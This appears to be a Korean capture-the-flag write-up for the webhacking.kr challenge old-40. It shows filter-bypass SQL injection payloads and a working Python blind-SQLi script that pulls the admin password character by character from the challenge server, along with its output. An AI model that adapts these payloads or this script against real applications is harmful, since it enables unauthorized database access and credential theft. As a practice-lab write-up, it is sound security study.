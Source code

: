 ```yaml
---
title: ["[Webhacking.kr] old-40 (sqli - 50)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, blind sqli, binary search, mysql, blackbox]
---
```

## Intro

또 블랙박스 SQLi다...  
인젝션이 가능한 파라미터와 필터링되는 문구들을 찾아보자.  

## Analysis

`no`, `id,` `pw` 세 파라미터 중, `no`만 인젝션이 동작하는 것으로 보인다.  
```
?no=1%0a%7c%7c%0a1%23
```  
`no`에 위와 같은 값을 넣으면, `Success - guest` 응답이 오고,  
`#` 주석 뒤에 필터링테스트를 진행할 수 있어.  
만약 문자열이 필터링된다면, `access denied` 응답이 온다.  

여러 구문들을 테스트한 결과,  
`select`, `or`, ` `, `ascii` 등이 필터링 된다.  

```
?no=0||no=2#
```  
위와 같은 페이로드를 넣으면 간단히 `admin`이 나올 줄 알았으나,  
`admin`의 `password`를 입력하라고 한다.  

즉, `password`를 Blind SQLi로 구해내는 문제로 보인다.  
구문이 참이라면, `admin password` 창이 나오고,  
거짓이라면 `Failure`가 뜰 것이다.  

```
?no=0||no=2&&length(pw)=10#
```  

`>`가 필터링되지 않아, `old-21`에서 사용했던 binary search based blind sqli를 그대로 사용할 수 있다.  

## Payload

```python
import requests

url = "https://webhacking.kr/challenge/web-29/"
cookies = {"PHPSESSID": "pdklhoab5em3bjokn1f6jji580"}

pw_len = 0
for i in range(1,50):
    payload = f"0%7c%7cno=2%26%26length(pw)={i}%23"
    response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

    if('admin password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")
        break

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"0%7c%7cno=2%26%26conv(hex(substr(pw,{i},1)),16,10)%26{1<<bit}%23"
#        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

        if('admin password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
    
```

```
Password length is 10
Password is l
Password is lu
Password is luc
Password is luck
Password is luck_
Password is luck_a
Password is luck_ad
Password is luck_adm
Password is luck_admi
Password is luck_admin
```